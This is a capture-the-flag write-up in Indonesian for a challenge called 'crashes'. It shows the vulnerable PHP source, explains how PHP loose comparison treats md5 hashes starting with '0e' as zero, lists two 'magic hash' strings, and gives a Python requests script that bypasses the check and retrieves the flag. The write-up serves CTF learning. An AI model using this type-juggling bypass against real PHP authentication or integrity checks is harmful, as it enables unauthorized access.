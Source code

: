 <h1><b>crashes</h1></b>
<pre>
Can you fool the unfoolable?

http://hack.bckdr.in:10678

Hint 1: https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf

Hint2: https://en.wikipedia.org/wiki/Md5sum
</pre>
</b><h3>Solution</h3></b>
<p>Disini kita diberi akses pada link http://hack.bckdr.in:10678, yang jika dibuka maka muncul source PHP</p>

```php
<?php

include 'flag.php';

$a = (string)$_GET['a'];
$b = (string)$_GET['b'];

if(empty($a) || empty($b)){
    highlight_file('index.php');
    die();
}

if ($a == $b){
    die("Nope...");
}
else{
    if(md5($a) == md5($b)){
        die($FLAG);
    }
    else{
        die("Naadaa...");
    }
}

?>
```
<p align='justify'>Dari source code dan hint kita mendapatkan yaitu mengenai juggling variabel type, dan kita diminta untuk melakukan requests dengan mencari 2 string berbeda yang menghasilkan
nilai hash-nya itu sama. Dapat diketahui hash terdiri dari 0-9 dan a-f, dari sini kita bisa ketahui juga jika "e" dibaca exponent di pemograman, dan 0e123 (0 exponent) akan selalu menghasilkan nilai 0.
Jadi kita bisa mencari 2 string yg berbeda yang 2 first bytesnya yaitu 0e dan bytes selanjutnya harus berupa angka(tidak huruf)</p>
<p>Dan saya mencoba string</p>
<pre>
venom19183419 (0e103599092511323593267831730977)
admin1674227342 (0e463854177790028825434984462555) 
</pre>
<p>yang nanti hasilnya akan sama-sama 0</p>

```python
import requests

url = 'http://hack.bckdr.in:10678'
data = {"a":"venom19183419",
        "b":"admin1674227342"}
res = requests.get(url,params=data).text
print(res) #flag{240610708_QNKCDZO}
```

</b><h3>Flag</h3></b>
<pre>
flag{240610708_QNKCDZO}
</pre>
